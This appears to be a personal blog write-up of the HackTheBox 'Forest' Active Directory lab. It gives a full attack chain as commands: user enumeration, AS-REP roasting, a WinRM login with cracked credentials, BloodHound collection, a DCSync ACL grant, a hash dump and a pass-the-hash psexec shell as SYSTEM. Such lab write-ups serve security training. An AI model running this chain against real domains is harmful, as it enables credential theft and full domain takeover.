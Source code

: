 ```yaml
---
layout: post
title: "Forest"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


ya bissmillah , first box in playlist 

as any box we will start with nmaP

`sudo nmap -sC -sV -p-  -T4 10.10.10.161 -oN FOREST` 
![[Pasted image 20240522201952.png]]
kerberos ,ldap ,smb, rpc   that's a DC but without DNS (port 53 ) which is weird

let's check null session agains smb and ldap and rpc

`ldap null session is allowed  nxc ldap 10.10.10.161  -u '' -p ''  --users`
![[Pasted image 20240522202946.png]]====

==we can enumerate users with null session and rpc ==
![[Pasted image 20240522203256.png]]

nothing for smb until now 

let's create a wordlists and try asreproasting
`rpcclient 10.10.10.161 -U  '' -N -c  enumdomusers | cut -d '[' -f 2 | cut -d ']' -f 1`
![[Pasted image 20240522204005.png]]


==asreproasting==
`nxc ldap 10.10.10.161  -u users.txt -p ''  --asreproast asreproast `
![[Pasted image 20240522204136.png]]

==hashcat==
using rockyou.txt
![[Pasted image 20240522204214.png]]

enumerate using ==ldapdomaindump==
`python3 ldapdomaindump.py --user 'HTB\svc-alfresco' --password s3rvice --outdir ldapdomaindump 10.10.10.161`
![[Pasted image 20240522213314.png]]

if we took a look on the user ==svc-alfresco==
![[Pasted image 20240522213429.png]]
![[Pasted image 20240522213602.png]]

our group is member of the group , ==Remote Management Users== 
so we can use ==evil-winrm== to login
`evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p s3rvice
`
![[Pasted image 20240522213808.png]]

when I got creds , I tried bloodhound-python but that didn't work because of the stupid DNS
now I will use sharphound.exe
![[Pasted image 20240522214203.png]]
on the windows box 
`wget -Uri http://10.10.14.15/SharpHound.exe -Outfile SharpHound.exe`

![[Pasted image 20240522214319.png]]

`.\SharpHound.exe -c all`
![[Pasted image 20240522214543.png]]

now we have bloodhound.zip files , let's move it to our machine , the easiest way  to do that is by hosting a smbserver using impacket

`impacket-smbserver -smb2support share .`
![[Pasted image 20240522214723.png]]

`move 20240522135040_BloodHound.zip \\10.10.14.15\share` 
and we should have the file on our machine 


now we could use bloodhound  
great article about setting up bloodhound  https://blog.spookysec.net/Deploying-BHCE/

![[Pasted image 20240522221736.png]]

the ==genericall== we could use it to add our user to the exchange group
![[Pasted image 20240522221909.png]]

`net rpc group addmem "EXCHANGE WINDOWS PERMISSIONS" "d0s3nt" -U "HTB.LOCAL"/"svc-alfresco"%"s3rvice" -S "10.10.10.161"`

![[Pasted image 20240522222023.png]]
we could check using 
`net rpc group members "EXCHANGE WINDOWS PERMISSIONS" -U "HTB.LOCAL"/"svc-alfresco"%"s3rvice" -S "10.10.10.161"`
![[Pasted image 20240522222059.png]]

we can use ==WriteDacl== to add ourself the necssary ACL to perform DCSync

![[Pasted image 20240522222628.png]]
setting Up this tool was nightmare, I fellow this  https://www.youtube.com/watch?v=O_VeRoT1f1k
I found the script here https://github.com/ShutdownRepo/impacket/blob/04518279ef663e80195b61d4d864d6e9e8ac5d9f/examples/dacledit.py

`dacledit.py -action 'write' -rights 'DCSync' -principal 'svc-alfresco' -target-dn 'DC=HTB,DC=LOCAL' 'HTB.LOCAL'/'svc-alfresco':'s3rvice'`
![[Pasted image 20240522222912.png]]
nb : if it didn't work re run the net rpc command to add the user to the exchange groupe again
`impacket-secretsdump HTB.LOCAL/svc-alfresco:s3rvice@10.10.10.161`
![[Pasted image 20240522223613.png]]
using the hash we could get shell as SYSTEM using psexec

`impacket-psexec HTB.LOCAL/administrator@10.10.10.161 -hashes: 32693b11e6aa90eb43d32c72a07ceea6`
![[Pasted image 20240522224115.png]]


if we are in a real word scenario we could backtrack our modification by 
`dacledit.py -action 'remove' -rights 'DCSync' -principal 'svc-alfresco'-target-dn 'DC=HTB,DC=LOCAL' 'HTB.LOCAL'/'svc-alfresco':'s3rvice'`

when I was doing the box powerview function `Add-DomainObjectAcl` didn't work and hang on evil-wirm without response after watching ippsec , seems that the command on bloodhound graphing tool wasn't correct which is weird 

this should work  https://burmat.gitbook.io/security/hacking/domain-exploitation
``Add-DomainObjectAcl -TargetIdentity "DC=burmatco,DC=local" -PrincipalIdentity useracct1 -Rights DCSync``
